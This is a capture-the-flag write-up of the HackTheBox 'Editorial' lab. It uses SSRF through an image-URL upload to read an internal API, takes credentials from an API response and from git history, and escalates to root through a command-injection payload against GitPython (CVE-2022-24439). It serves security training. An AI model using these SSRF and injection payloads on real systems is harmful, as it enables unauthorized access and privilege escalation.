



# Editorial - HackTheBox - Writeup
Linux, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports  `22`, and `80`.

***User***: Discovered an SSRF vulnerability in the upload book cover API. Found the `dev` user credentials via the [http://localhost:5000/api/latest/metadata/messages/authors](http://localhost:5000/api/latest/metadata/messages/authors) API. Used `git log` to identify a file containing the credentials for the `prod` user.

***Root***: Discovered that we can run a Python script as `root`. The Python script uses `git.Repo.clone_from`, which is vulnerable to command injection (CVE-2022-24439). Exploiting this, we obtained the root flag.


## Editorial Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ nmap -sV -sC -oA nmap/Editorial 10.10.11.20
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-12 00:39 IDT
Nmap scan report for 10.10.11.20
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0dedb29ce253fbd4c8c1196e7580d864 (ECDSA)
|_  256 0fb9a7510e00d57b5b7c5fbf2bed53a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


We observed that we can upload files using a URL, which might indicate a hint towards an SSRF vulnerability:



We just need to determine the local port on which the application is running. First, let's identify the User-Agent of the application by sending a request to http://10.10.14.14:8000/ and listening on port `8000` using `nc`. After entering the URL and clicking on Preview, we receive the following request:

```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ nc -lvp 8000
connect to [10.10.14.14] from editorial.htb [10.10.11.20] 49358
GET /t.r HTTP/1.1
Host: 10.10.14.11:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

```When we browse to the image link, we retrieve the following content.

We can try the common HTTP ports: `80, 8000, 8080, 5000`.

When sending the request to http://localhost:5000/, we can observe the image icon on the left, which includes the URL http://editorial.htb/static/uploads/fa71b075-3a7e-4f92-94c3-0018d3fd1652:



When we browse to the image link, we retrieve the following content:
```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ curl http://editorial.htb/static/uploads/fa71b075-3a7e-4f92-94c3-0018d3fd1652
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```

Using the same technique for http://localhost:5000/api/latest/metadata/changelog, we retrieve the following content:
```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ curl http://editorial.htb/static/uploads/94aba9d1-9e5c-4b35-b5e0-0dd5b0c7126c
[{"1":{"api_route":"/api/v1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial El Tiempo Por Arriba"}},{"1.1":{"api_route":"/api/v1.1/metadata/","contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Ed Tiempo Arriba"}},{"1.2":{"contact_email_1":"soporte@tiempoarriba.oc","contact_email_2":"info@tiempoarriba.oc","editorial":"Editorial Tiempo Arriba","endpoint":"/api/v1.2/metadata/"}},{"2":{"contact_email":"info@tiempoarriba.moc.oc","editorial":"Editorial Tiempo Arriba","endpoint":"/api/v2/metadata/"}}]
```

We can see the users `soporte` and `info`.

When we browse to http://localhost:5000/api/latest/metadata/messages/authors, we retrieve the following content which contains credentials:
```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ curl http://editorial.htb/static/uploads/92980915-d461-4d12-8f90-397b03579908
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
```

And we successfully used those credentials `dev:dev080217_devAPI!@` to log in via SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ ssh dev@editorial.htb
dev@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 11 10:22:45 PM UTC 2024

  System load:           0.08
  Usage of /:            62.1% of 6.35GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ad09


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52

dev@editorial:~$ cat user.txt 
d5c7346376e9c092278ca89a18c6c49e

```

And we get the user flag `d5c7346376e9c092278ca89a18c6c49e`.

### Root

In the `~/apps` directory, we found a `.git` directory. Running `git log` yielded the following results:
```console
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

By running `git show` for the commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae`, we retrieved the following information:
```console
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

We have discovered another set of credentials: `prod:080217_Producti0n_2023!@`. Let's use them for SSH login:
```console
┌─[evyatar9@parrot]─[/hackthebox/Editorial]
└──╼ $ ssh prod@editorial.htb
prod@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 11 10:39:14 PM UTC 2024

  System load:           0.01
  Usage of /:            62.2% of 6.35GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             232
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:ad09


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


prod@editorial:~$

```

By running `sudo -l`, we can see that the `prod` user can execute the following commands as `root`:
```console
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *

```

Where the script includes the following:
```console
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])

```

We can see the script uses `git.Repo.clone_from`, which is vulnerable to Remote Code Execution (RCE) as described here: [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858). We can exploit this vulnerability by executing the command as follows:
```console
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/pwned"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ ll /tmp/
total 60
drwxrwxrwt 15 root root 4096 Jul 11 22:51 ./
drwxr-xr-x 18 root root 4096 Jun  5 14:54 ../
drwxrwxrwt  2 root root 4096 Jul 11 13:04 .ICE-unix/
drwxrwxrwt  2 root root 4096 Jul 11 13:04 .Test-unix/
drwxrwxrwt  2 root root 4096 Jul 11 13:04 .X11-unix/
drwxrwxrwt  2 root root 4096 Jul 11 13:04 .XIM-unix/
drwxrwxrwt  2 root root 4096 Jul 11 13:04 .font-unix/
-rw-r--r--  1 root root    0 Jul 11 22:51 pwned

```

And we confirmed that we have Remote Code Execution (RCE).

We can use the payload `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat /root/root.txt > /tmp/a"` to retrieve the root flag:
```console
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt>/tmp/a"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt>/tmp/a new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/a 
c1fda12c43cfe814a76a506eb608fb1a

```

And we get the root flag `c1fda12c43cfe814a76a506eb608fb1a`.

PDF password
```
$y$j9T$PNijPFzQRd1/Yx6sr4HqS.$ITtQp.k4TN0RY1ADcvcSb.b9UcxD6Jx0MDNL3odgsV9
```